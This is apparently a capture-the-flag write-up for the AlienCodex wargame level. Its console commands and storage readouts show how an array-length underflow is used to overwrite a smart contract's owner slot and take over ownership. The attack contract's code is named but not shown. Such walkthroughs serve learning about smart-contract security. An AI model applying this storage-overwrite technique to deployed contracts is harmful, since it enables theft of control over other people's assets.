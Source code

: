 # Level 19: AlienCodex

### Wargame
Claim ownership to complete the level.

### Key Insights
* Storage Slot

### Attack Steps
1. Before executing the attack, display the address of the target contract and inspect storage slot 0 and 1 to understand the current contract state.
    ```bash
    > instance
    '0x7295e2209Cb7991d9D820eb5Bc0cEEb6ED93D925'

    > await contract.owner()
    '0x0BC04aa6aaC163A6B3667636D798FA053D43BD11'

    > await contract.isOwner()
    false

    > await web3.eth.getStorageAt(instance, 0)
    '0x0000000000000000000000000bc04aa6aac163a6b3667636d798fa053d43bd11'

    > await web3.eth.getStorageAt(instance, 1)
    '0x0000000000000000000000000000000000000000000000000000000000000000'
    ```
* Slot 0 stores the current owner address.
* Slot 1 stores the length of the codex dynamic array, which is 0 initially.

2. Deploy the AlienCodexAttack contract, passing the target contract address as the constructor argument.

3. Call attackPrepare() from the AlienCodexAttack contract.
* Unlocks access to internal array functions.
* Exploits an underflow to allow writing to any storage slot in the contract.

4. After the transaction is confirmed, verify that the storage has changed:
    ```bash
    > await web3.eth.getStorageAt(instance, 0)
    '0x0000000000000000000000010bc04aa6aac163a6b3667636d798fa053d43bd11'

    > await web3.eth.getStorageAt(instance, 1)
    '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
    ```
* Notice that slot 1 has now been overwritten with the maximum possible value for a uint256, effectively allowing index-based writes to any storage slot using codex.

5. Call attack() on the AlienCodexAttack contract.
* This step calculates the index needed to overwrite slot 0 and sets it to your address.

6. After the transaction is confirmed, confirm the ownership has been taken over:
    ```bash
    > await web3.eth.getStorageAt(instance, 0)
    '0x000000000000000000000000eb47eab0027b0ddd5615d00f9d83ec0e71d3aeff'

    > await contract.owner()
    '0xEB47eAB0027B0DDd5615D00f9D83eC0e71D3aeFf'

    > await contract.isOwner()
    true
	```
* The owner has now been successfully overwritten with your address.
* You now pass the isOwner() check.
